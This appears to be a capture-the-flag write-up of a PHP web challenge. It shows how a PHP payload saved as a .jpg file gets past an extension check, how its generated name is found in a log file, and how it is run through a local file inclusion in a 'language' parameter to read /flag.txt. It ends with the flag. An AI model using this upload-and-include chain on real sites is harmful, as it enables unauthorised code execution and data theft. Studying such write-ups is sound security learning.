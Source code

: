 Endpoint to upload files

```php
<?
    $uniqueName = uniqid() . "_$originalName";
    $uploadPath = $uploadDir . $uniqueName;

    if (in_array($fileExtension, $allowedExtensions)) {
        if (move_uploaded_file($fileTmpPath, $uploadPath)) {
            logEvent("Uploaded file: $uniqueName");
...
?>
```

As you can see here, the finale path will be constructed with `$uniqueName`, so we have to get a way to know generated file path and that could be found in 

```php
<?$logFile = 'logs/site_log.txt';

/**
 * Logs a message to the centralized log file.
 *
 * @param string $message The message to log.
 */
function logEvent($message) {
    global $logFile;

    if (!is_dir(dirname($logFile))) {
        mkdir(dirname($logFile), 0755, true);
    }

    $timestamp = date('[Y-m-d H:i:s]');
    $formattedMessage = "$timestamp $message\n";

    file_put_contents($logFile, $formattedMessage, FILE_APPEND);
}
?>
```

Payload file with any name that bypass the validation (`$allowedExtensions = ['jpg', 'png', 'gif'];`) like test.jpg with content

```php
<?php 
  $file = '/flag.txt'; 
  $content = file_get_contents($file); 
  echo $content; 
?>

```

Upload your file and go to `conspiracy` page, because there we can `include` that file (it will be executed)


```php
<?
$baseDir = realpath('/var/www/html');

$language = $_GET['language'] ?? 'languages/english.php';

logEvent("Language parameter accessed: $language");

$filePath = realpath($language);

ob_start();

if ($filePath && strpos($filePath, $baseDir) === 0 && file_exists($filePath)) {
    include($filePath); // execution point
} else {
    echo "<p>File not found or access denied: " . htmlspecialchars($language) . "</p>";
    logEvent("Access denied or file not found for: $language");
}
$languageContent = ob_get_clean();
?>
```

we can abuse this GET parameter with `/var/www/html/` + your filename from logs


`flag{6558608db040d1c64358ad536a8e06c6}`
